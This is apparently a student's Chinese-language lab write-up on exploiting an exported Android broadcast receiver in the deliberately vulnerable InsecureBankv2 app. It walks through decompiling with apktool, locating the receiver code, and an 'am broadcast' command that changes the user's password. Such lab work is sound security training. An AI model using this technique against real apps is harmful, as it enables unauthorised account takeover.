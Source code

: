 # Exploiting Android Broadcast Receivers

### 1. 实验过程

- **缺陷代码定位**

    - 使用 apktool 反编译 `InsecureBankv2.apk`

        ```
        C:> apktool d InsecureBankv2.apk
        ```

    - 在 `AndroidManifest.xml` 中找到广播接收器声明

        ![img](../img/0x04-broadcast-declaration.PNG)

    - 在反编译 Project 下搜索 `theBroadcast`，找到响应 action 的活动，并在 `ChangePassword` 中找到关键字 `(phonenumber, newpass)`

        ```
        $ grep 'theBroadcast' -R .
        ```

        ![img](../img/0x04-search-action.PNG)

        ![img](../img/0x04-keywords.PNG)

    - 继续在反编译 Project 中搜索上述关键词，并在 `MyBroadcastReceiver` 中定位传参的关键代码

        ```
        $ grep 'MyBroadcastReceiver' -R .
        ```

        ![img](../img/0x04-search-keywords.PNG)

        ![img](../img/0x04-core-code.PNG)

    - 通过以下指令触发修改密码的广播

        ```
        # am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 -–es newpass Idchannov@123!
        ```

- **漏洞利用效果展示**

    ![img](../img/0x04-result.PNG)

### 2. 遇到的问题

- 使用广播方式修改密码未成功

    ![img](../img/0x04-p1.PNG)

    **错误原因：** Walkthroughs笔误，两处传参均y应使用 `--es`

- **【Unsolved】** 原代码中方法名为 `MyBroadcastReceiver`，但广播指令使用这个时漏洞利用不成功，转而使用` MyBroadCastReceiver` 后成功了，Walkthroughs 中也是这么写的，想不明白为什么，蹲个解答~qwq~

### 3. 参考资料

- [Intent 中重要方法：setAction()、setData()、setType()、putExtra()](https://www.cnblogs.com/shuiyin/p/6550999.html)

- [广播概览 | Android Developers](https://developer.android.com/guide/components/broadcasts#java)
